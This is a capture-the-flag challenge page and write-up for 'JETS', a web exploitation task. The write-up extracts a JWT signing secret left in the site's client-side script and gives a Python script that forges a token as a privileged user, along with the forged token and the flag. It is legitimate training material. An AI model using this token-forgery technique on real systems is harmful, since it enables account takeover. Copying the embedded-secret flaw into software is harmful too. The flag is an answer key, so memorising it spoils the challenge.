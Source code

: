 # JETS

- Published: 12/15/2024 (#15/25 in event)
- Category: Web exploitation
- Points: 70
- Author: GodderE2D

It seems like the Secret Society of K.U.N.A.L has invested in another business…Oh no.

If those planes come anywhere close to Santa—after his “adventure” in France—he’ll be scathed for good. Those reindeer
don’t like inhaling kerosene!

Agent, we need you to infiltrate their system and gather some information for our engineers at Elves Intelligence. We
believe the plane they’re using is a bit special…it may have been custom-built for K.U.N.A.L himself!

Here’s their website, agent: [https://jets.csd.lol/](https://jets.csd.lol/). Best of luck.

---

_**You are only allowed to test in the scope `https://jets.csd.lol/*`.** Blind brute-force request sending (e.g. using
tools like DirBuster) can trigger Cloudflare rate limits. Do not attempt to bypass Cloudflare limits. Therefore, if you
wish to brute-force, please limit your wordlists or attack scope._

## Hints

**Hint 1:**

What's a [JSON Web Token](https://en.wikipedia.org/wiki/JSON_Web_Token)? Look closely at `/script.js`; the developer
might've left something in there by accident!

**Hint 2:**

Try looking at `/script.js`; there's a special username in there! Is it possible to login as that special user?

Your browser's DevTools will help solve this challenge.

## Write-up

<details>
<summary>Reveal write-up</summary>

When we go to the website, we can see the sign up option on the screen, so let's sign up using random credentials.

Once we sign up, we can go to Storage in our DevTools, where we see a cookie named token.

We can easily decrypt the Value of the token using jwt.io which can help us decode this JSON Web Token.

Encrypted Token :

`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE3MzU0NDM5MjcsImV4cCI6MTczNTQ0NzUyNywic3ViIjoidGVzdCJ9.qW6uinpVkLKBAbLpwTiGH9dxElp7mMosW9DhuwPfZ9U`

Decrypted Token :

```txt
{
  "iat": 1735443927,
  "exp": 1735447527,
  "sub": "test"
}
```

Here, iat and exp are time stamps, and sub is the username

Now, let's look at the source code. an interesting part of the js code is:

```js
if (token) {
  const { sub } = jwtDecode(token, {
    secret: atob("MWRkMjJiYjQyNzBjYjE0NTcyMzIyZTAzNDI1YzAwNTgzZTAyYmY2M2Y1YzdhZjdkMmYzODdlMjRlN2Q1YjkzMQ=="),
  });
  console.log(sub);

  if (sub === atob("S1VuNEw=")) {
    footer.style.display = "block";
  }
```

In this example, we can see that secret is used for securing and validating JWT, and sub which is an username. both are
encrypted in base64, so let's decode them.

```txt
secret : 1dd22bb4270cb14572322e03425c00583e02bf63f5c7af7d2f387e24e7d5b931
sub : KUn4L
```

to sign in KUn4L's account, we have to generate a JWT with their user id, time and we have to sign it with secret .

Here's the code in python that does exactly that:

```py
import jwt
import time

secret = "1dd22bb4270cb14572322e03425c00583e02bf63f5c7af7d2f387e24e7d5b931"

payload = {
    "iat": int(time.time()),
    "exp": int(time.time()) + 3600,
    "sub": "KUn4L"
}

token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```

let's run the code:

```bash
jstr$ python main.py
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE3MzU0NDcwNDEsImV4cCI6MTczNTQ1MDY0MSwic3ViIjoiS1VuNEwifQ.0cVePmTMBbm5u6RVaYSDOScCmpn5HOIJV8fhvcVbd6E
```

We can now switch the token value by putting this JWT instead of the old one.

When we reload the website after switching JWT, the third picture we see, is a Walmart bag, which has the flag.

Flag: `csd{Wh47_D1D_KUN4I_do_7h1S_71M3}`

</details>

Write-up by .jstr\_
